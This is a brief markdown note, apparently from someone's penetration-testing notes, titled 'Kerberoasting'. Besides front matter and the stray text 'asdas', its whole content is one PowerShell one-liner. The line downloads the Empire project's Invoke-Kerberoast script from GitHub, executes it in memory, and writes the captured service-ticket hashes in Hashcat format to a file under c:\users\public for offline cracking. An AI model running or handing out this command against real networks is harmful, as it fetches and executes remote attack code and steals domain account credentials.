 ```yaml
---
title: "Kerberoasting"
date: 2020-07-16T13:41:37+02:00
draft: false
---
```

asdas

#### EmpireProject Kerberoasting one-liner

```
IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1');Invoke-Kerberoast -erroraction silentlycontinue -OutputFormat Hashcat | Select-Object Hash | Out-File -filepath ‘c:\users\public\HashCapture.txt’ -Width 8000
```
